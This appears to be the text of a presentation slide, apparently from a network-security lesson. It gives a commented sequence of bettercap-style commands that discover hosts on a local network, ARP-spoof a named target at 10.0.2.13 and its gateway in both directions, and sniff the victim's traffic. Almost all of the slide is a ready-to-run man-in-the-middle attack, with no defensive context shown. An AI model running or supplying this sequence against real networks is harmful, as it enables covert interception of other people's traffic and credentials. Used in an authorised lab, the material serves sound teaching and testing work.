

# Summary
// discover all devices in the network
net.probe on
//both target and gateway are will be attacked
set arp.spoof.fullduplex true
//set targets
set arp.spoof.targets 10.0.2.13
//spoof attack
arp.spoof on
//spy on target/victim
net.sniff on
16